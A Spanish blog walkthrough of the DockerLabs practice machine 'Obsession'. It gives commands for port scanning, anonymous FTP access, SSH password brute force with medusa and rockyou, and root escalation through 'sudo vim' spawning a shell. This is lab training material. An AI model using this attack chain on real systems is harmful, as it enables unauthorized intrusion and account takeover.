 ```yaml
---
layout: post
title: "Obsession"
date: 2024-07-27 14:10:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Obsession </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/obsession/host.png){:.margin}

**1\.** Escaneando los puertos de la maquina.

`sudo nmap -p- --open -T5 --min-rate=5000 -sS -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/obsession/nmap.png){:.margin}

**2\.** En la web podemos encontrar algunas pistas, por ejemplo podria tener el usuario russoski que se menciona en muchas partes.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/obsession/80.png){:.margin}
![img](/notas/public/img/dockerlabs/obsession/80code.png){:.margin}

**3\.** Accedo al ftp com anonymous, hay dos archivos los descargo y en uno de ellos se puede confirmar la existencia del usuario russoski y otra que es gonza. 

`ftp 172.17.0.2`

`dir`

`get chat-gonza.txt pendientes.txt`

`cat chat-gonza.txt`

![img](/notas/public/img/dockerlabs/obsession/ftp.png){:.margin}

![img](/notas/public/img/dockerlabs/obsession/cattxt.png){:.margin}

**4\.** Haciendo fuerza bruta al ssh usuario russoski.

`medusa -h 172.17.0.2 -u russoski -P /usr/share/wordlists/rockyou.txt -M ssh -t10 -f | grep SUCCESS`

![img](/notas/public/img/dockerlabs/obsession/medusa.png){:.margin}

**5\.** Me conecto por ssh como russoski.

`ssh russoski@172.17.0.2`

![img](/notas/public/img/dockerlabs/obsession/sshrussoski.png){:.margin}

**6\.** viendo los permisos sudo del usuario, veo que puedo ejecutar un binario como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/obsession/sudol.png){:.margin}

**7\.** Obteniendo el usuario root,[gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo).

`sudo vim -c ':!/bin/sh'`

![img](/notas/public/img/dockerlabs/obsession/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>